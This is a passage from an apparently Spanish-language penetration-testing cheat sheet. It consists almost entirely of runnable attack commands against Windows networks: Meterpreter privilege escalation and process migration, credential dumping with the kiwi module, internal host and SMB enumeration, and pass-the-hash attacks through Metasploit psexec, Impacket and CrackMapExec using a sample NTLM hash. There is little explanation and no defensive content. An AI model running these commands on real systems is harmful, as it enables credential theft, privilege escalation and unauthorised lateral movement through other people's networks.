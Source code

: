 ### 3. Explotación de Servicios Windows

```bash
# Meterpreter commands para Windows
getsystem
getprivs
run post/windows/gather/enum_services

# Migrar a proceso con más privilegios
ps
migrate <PID>

# Cargar módulos adicionales
load kiwi
creds_all
```

## 🌐 Movimiento Lateral

### 1. Enumeración de Red Interna

```bash
# Descubrir hosts en red interna
nmap -sn 192.168.1.0/24
arp -a
netstat -rn

# Escaneo de puertos internos
nmap -sS -T4 --top-ports 1000 192.168.1.0/24

# Enumeración SMB
enum4linux 192.168.1.100
smbclient -L //192.168.1.100
```

### 2. Pass-the-Hash Attacks

```bash
# Con Metasploit
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76
exploit

# Con Impacket
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 administrator@192.168.1.100

# Con CrackMapExec
crackmapexec smb 192.168.1.0/24 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76
```
